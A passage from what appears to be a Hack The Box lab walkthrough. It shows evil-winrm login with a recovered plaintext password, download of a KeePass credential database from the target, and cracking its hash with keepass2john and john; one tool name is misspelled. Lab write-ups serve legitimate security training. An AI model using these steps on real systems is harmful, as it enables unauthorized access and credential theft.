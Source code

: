 We have obtained the password for the user Johanna. Let's proceed with logging in using these credentials.

evil-winrm -i 10.129.211.174 -u johanna -p 1231234!

<figure><img src="../.gitbook/assets/image (108).png" alt=""><figcaption></figcaption></figure>

We have successfully logged in. Let's proceed with the next steps.

```
download "C:/Users/johanna/Documents/Logins.kdbx" /home/htb-ac-1224655/Logins.kdbx
```

<figure><img src="../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

I located a file named Logins.kdbx and subsequently downloaded it to my analysis workstation.

The file is password-protected. Therefore, we should attempt to extract the password hash from this KeePass database file.

```
eepass2john Logins.kdbx > keys.hash
john --wordlist=mut_password.list keys.hash
```

<figure><img src="../.gitbook/assets/image (110).png" alt=""><figcaption></figcaption></figure>
